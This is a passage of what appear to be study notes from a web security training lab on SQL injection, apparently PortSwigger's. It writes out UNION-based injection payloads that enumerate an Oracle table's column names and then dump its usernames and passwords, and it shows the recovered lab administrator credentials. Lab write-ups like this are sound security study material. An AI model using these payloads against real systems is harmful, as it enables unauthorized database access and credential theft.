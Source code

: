 Find column names:

```
' UNION SELECT null, column_name FROM all_tab_columns WHERE table_name = 'USERS_CQRSFI'--
```


```
PASSWORD_VDPSOQ
USERNAME_LYGKEY
```

Now dump creds

```
' UNION SELECT PASSWORD_VDPSOQ, USERNAME_LYGKEY FROM USERS_CQRSFI--
```

```
administrator
jst42g9w9erz5dcp7ao8
```

Login to complete the lab :)

# Blind SQLi

## [LAB] Blind SQL injection with conditional responses





[Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)





